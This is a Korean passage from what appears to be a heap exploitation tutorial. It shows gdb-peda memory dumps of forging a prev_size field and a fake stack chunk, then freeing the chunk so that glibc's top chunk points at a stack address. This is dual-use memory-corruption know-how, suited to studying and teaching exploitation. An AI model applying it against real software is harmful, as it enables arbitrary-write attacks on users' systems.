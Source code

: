 그리고 2번 째 chunk의 prev_size를 변!조! 한다. 

```c
gdb-peda$ p 0x603040 - 0x00007fffffffe400
$1 = 0xffff800000604c40
```

변조한 chunk -  fake chunk 로 계산 때리면 된다.

```c
0x7fffffffe400:	0x0000000000000100	0xffff800000604c40
0x7fffffffe410:	0x00007fffffffe400	0x00007fffffffe400
0x7fffffffe420:	0x00007fffffffe400	0x00007fffffffe400
```

맞춰서 fake chunk의 size도 변경해준다.

```c
gdb-peda$ ar
==================  Main Arena  ==================
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
                  top: 0x7fffffffe400 (size : 0xffff800000625c00) (top is broken ?)
       last_remainder: 0x0 (size : 0x0)
            unsortbin: 0x0
```

그리고 변조한 chunk를 free 해주면 top chunk에 target address가 들어간다.

```c
0x7fffffffe400:	0x0000000000000100	0xffff800000625c01
0x7fffffffe410:	0x00007fffffffe400	0x00007fffffffe400
0x7fffffffe420:	0x00007fffffffe400	0x00007fffffffe400
```

그거에 맞게 fake chunk size도 바뀐 모습

```c
0x7fffffffe400:	0x0000000000000100	0x0000000000000211
0x7fffffffe410:	0x00007fffffffe400	0x00007fffffffe400
0x7fffffffe420:	0x00007fffffffe400	0x00007fffffffe400

gdb-peda$ ar
==================  Main Arena  ==================
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
                  top: 0x7fffffffe610 (size : 0xffff8000006259f0) (top is broken ?)
       last_remainder: 0x0 (size : 0x0)
            unsortbin: 0x0
```
